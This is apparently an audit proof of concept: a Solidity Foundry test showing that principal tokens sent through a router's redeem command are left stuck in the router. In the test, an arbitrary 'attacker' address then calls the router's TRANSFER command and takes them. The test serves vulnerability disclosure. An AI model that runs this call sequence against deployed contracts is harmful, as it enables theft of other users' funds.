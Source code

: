 ```solidity

        //c get maturity 
        uint256 maturity = principalToken.maturity();
        //c wait for maturity
        vm.warp(maturity + 100);
        vm.roll(block.number + 1);

        //c give allowance to router to take pt tokens
        principalToken.approve(address(router), amount);
        
        //c attempt to use router to redeem pt for asset
        bytes memory commands = abi.encodePacked(
            bytes1(uint8(Commands.TRANSFER_FROM)),
            bytes1(uint8(Commands.REDEEM_PT_FOR_ASSET))
        );
        bytes[] memory inputs = new bytes[](2);
        inputs[0] = abi.encode(address(principalToken), amount);
        inputs[1] = abi.encode(address(principalToken), amount, testUser, 0);
        

        uint256 underlyingBalanceOfUserBefore = underlying.balanceOf(testUser);
        uint256 underlyingBalanceOfRouterBefore = underlying.balanceOf(address(router));
        uint256 underlyingBalanceOfOtherBefore = underlying.balanceOf(other);
        uint256 ptBalanceOfUserBefore = principalToken.balanceOf(testUser);
        uint256 ptBalanceOfRouterBefore = principalToken.balanceOf(address(router));
        uint256 ptBalanceOfOtherBefore = principalToken.balanceOf(other);

        router.execute(commands, inputs);

        /*assertEq(
            underlying.balanceOf(testUser),
            underlyingBalanceOfUserBefore,
            "User's underlying balance after router execution is wrong"
        );
        assertEq(
            underlying.balanceOf(address(router)),
            underlyingBalanceOfRouterBefore,
            "Router's underlying balance after router execution is wrong"
        );
        assertEq(
            principalToken.balanceOf(testUser),
            ptBalanceOfUserBefore,
            "User's PT balance after router execution is wrong"
        );
        assertEq(
            principalToken.balanceOf(address(router)),
            ptBalanceOfRouterBefore,
            "Router's PT balance after router execution is wrong"
        ); */

        //c with the pt's now stuck in the router, anyone can call transfer and get the pt's
        address attacker = vm.addr(100);
        vm.startPrank(attacker);
        bytes[] memory inputs1 = new bytes[](1);
        bytes memory commands1 = abi.encodePacked(
            bytes1(uint8(Commands.TRANSFER))
        );
        inputs1[0] = abi.encode(address(principalToken), attacker, amount);
        router.execute(commands1, inputs1);
        vm.stopPrank();

        assertEq(principalToken.balanceOf(attacker), amount);
            
```